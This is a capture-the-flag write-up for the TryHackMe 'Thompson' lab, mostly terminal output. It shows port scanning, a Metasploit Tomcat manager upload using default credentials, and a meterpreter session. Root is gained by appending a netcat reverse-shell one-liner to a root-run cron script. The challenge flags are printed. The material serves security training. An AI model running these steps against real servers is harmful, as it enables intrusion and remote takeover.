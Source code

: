 <code>
   
https://tryhackme.com/room/bsidesgtthompson
cve-2020-1938


## Enumeration

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap   -p- 10.10.29.119       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:43 CEST
Nmap scan report for 10.10.29.119
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap  -sV -A -p 8080 10.10.29.119
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:45 CEST
Nmap scan report for 10.10.29.119
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5


PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds


**Looks like cve-2020-1938**

## try default passwords on web and Get
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>

## Try msfconsole
``` Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.29.119     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.28.108      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.8.28.108:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying c7LfPuhpeMX...
[*] Executing c7LfPuhpeMX...
[*] Undeploying c7LfPuhpeMX ...
[*] Sending stage (57971 bytes) to 10.10.29.119
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.8.28.108:4444 -> 10.10.29.119:47342) at 2025-06-18 13:13:42 +0200

meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > ls
```` 
## Get inital access as user

tomcat@ubuntu:/home/jack$ cat user.txt  
cat user.txt
39400c90bc683a41a8935e4719f181bf



## Privilage Escalation to root
tomcat@ubuntu:/home/jack$ ls -la
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jun 18 02:17 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

looks like id.sh is runs every minute with root creads

tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh
</f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh              

## Get root shell

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [10.8.28.108] from (UNKNOWN) [10.10.29.119] 33486
sh: 0: can't access tty; job control turned off
# # uid=0(root) gid=0(root) groups=0(root)
# ls
id.sh
test.txt
user.txt
#  cd root
# ls
root.txt
# cat root.txt
d89d5391984c0450a95497153ae7ca3a

